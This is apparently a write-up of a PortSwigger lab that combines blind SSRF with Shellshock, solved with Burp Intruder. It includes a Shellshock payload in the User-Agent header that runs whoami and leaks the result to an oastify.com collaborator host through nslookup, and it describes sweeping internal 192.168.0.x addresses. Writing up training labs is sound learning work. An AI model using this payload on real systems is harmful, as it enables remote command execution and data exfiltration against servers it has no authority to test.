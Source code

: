 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/7aa49cf9-fc04-4732-9f4d-c3010b44f741)

### Solution

After adding the lab domain to scope, it can be seen that the collaborator is triggered when the page is browsed.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/93f04d27-5fb7-46e9-a56e-8250d8b631a5)

Sent the user agent request to burp intruder

Added the payload `() { :; }; /usr/bin/nslookup $(whoami) .9s2yb2fmseaopv8fub0byl7h086zupie.oastify.com` in the intruder at the user agent section 

Where `9s2yb2fmseaopv8fub0byl7h086zupie.oastify.com` is the burp collaborator payload

Also changed the reference header to `http://192.168.0.1:8080` and added sniper attack at last octect. Set payload as numbers from 1 to 255

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/5cec62fc-9461-427f-9220-d3cf610ca2fb)

After successfully completing the attack, in the collaborator tab clicking on poll now option gives the result with os username.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/9633881f-3a27-4e98-9a0f-45805d81bbb3)

Lab completed successfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/58f928c9-e79f-43b8-bf6d-6292264106f4)


